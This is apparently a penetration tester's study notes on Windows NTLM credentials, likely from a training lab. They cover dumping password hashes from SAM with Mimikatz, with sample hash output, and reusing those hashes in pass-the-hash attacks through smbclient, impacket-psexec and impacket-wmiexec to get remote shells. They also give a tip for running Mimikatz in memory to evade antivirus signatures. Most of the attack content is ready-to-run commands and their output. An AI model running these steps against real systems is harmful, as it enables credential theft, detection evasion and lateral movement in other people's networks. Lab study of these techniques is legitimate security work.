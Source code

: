 ```yaml
---
description: >-
  New Technology LAN Manager is a replacement of LAN Manager used to store users
  password hashes in Windows.
---
```


# NTLM

Credentials are stored when a user logs into an account & when a user runs a service. More information below.

## Security Account Manager (SAM)

Passwords hashes on Windows are stored in the Security Account Manager (SAM) database file. _**This is used to authenticate local and remote users.**_





## Local Security Authority Subystem (LSASS).



## Mimikatz

_<mark style="color:red;">**NOTE:**</mark>_ When running Mimikatz it's very important use proper obfuscation techniques since it's heavily signatures. Running it entirely in memory and never saving it on Disk is a good approach.

We can use various commands to extract passwords from the system.

For both the following commands, we must have **SeDebugPrivilege** access right enabled, which we'll accomplish with **privilege::debug**.

### sekurlsa**::logonpasswords**

**sekurlsa::logonpasswords** attempts to extract plaintext passwords and password hashes from all available sources.



### l**sadump::sam**

**lsadump::sam** extracts NTLM hashes from SAM. NOTE: we must **token::elevate** to elevate to SYSTEM user privileges. We need local administrator privileges.

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```





## Passing NTLM - p_ass-the-hash_ (PtH)&#x20;

Depending on situation, we may be able to leverage an NTLM hash without cracking it.

Suppose we are trying to access a share on \\\192.168.246.212\\. We are entering the necessary permissions to access the share.

<figure><img src="../../.gitbook/assets/Screenshot_20231018_220241.png" alt=""><figcaption></figcaption></figure>



Like everything else we need local Administrator on the machine to enable code execution.

### Obtaining Hashes - Mimikatz

```shell-session
# privilege::debug

# token::elevate

# lsadump::sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
```

### SMBClient - Access Share

```shell-session
kali@kali$ smbclient \\\\192.168.236.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Wed Oct 18 17:54:13 2023
  secrets.txt                         A       16  Thu Sep  1 12:23:32 2022

                4554239 blocks of size 4096. 1602361 blocks available
smb: \> 

```



### Impacket Psexec

We can use Impacket to get a shell. The format is "LMHash:NTHash". We'll give **32 0's for LM**.

```shell-session
kali@kali$ impacket-psexec -hashes 0000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.236.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.236.212.....
[*] Found writable share ADMIN$
[*] Uploading file dZntBvns.exe
[*] Opening SVCManager on 192.168.236.212.....
[*] Creating service AKvb on 192.168.236.212.....
[*] Starting service AKvb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```

### Impacket Wmiexec

Like psexec we can use wmiexec to obtain a shell.

```shell-session
kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```

_<mark style="color:red;">**NOTE:**</mark>_ The difference between Psexec & WmiExec is that Psexec works over SMB while WmiExec uses Windows Management Instrumentation.
